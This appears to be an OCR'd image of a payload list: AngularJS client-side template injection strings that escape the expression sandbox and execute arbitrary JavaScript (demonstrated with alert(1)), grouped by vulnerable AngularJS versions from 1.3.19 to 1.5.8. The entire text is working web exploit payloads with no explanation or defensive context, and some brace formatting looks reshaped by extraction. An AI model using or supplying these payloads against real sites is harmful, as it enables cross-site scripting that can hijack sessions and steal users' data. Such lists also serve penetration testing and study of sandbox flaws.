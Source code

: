 ```javascript
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

AngularJS 1.5.0 - 1.5.8

```javascript
{
  {
    x = { y: "".constructor.prototype };
    x["y"].charAt = [].join;
    $eval("x=alert(1)");
  }
}
```

AngularJS 1.4.0 - 1.4.9

```javascript
{
  {
    "a".constructor.prototype.charAt = [].join;
    $eval("x=1} } };alert(1)//");
  }
}
```

AngularJS 1.3.20

```javascript
{
  {
    "a".constructor.prototype.charAt = [].join;
    $eval("x=alert(1)");
  }
}
```

AngularJS 1.3.19

```javascript
{
  {
    "a"[
      { toString: false, valueOf: [].join, length: 1, 0: "__proto__" }
    ].charAt = [].join;
    $eval("x=alert(1)//");
  }
}
```
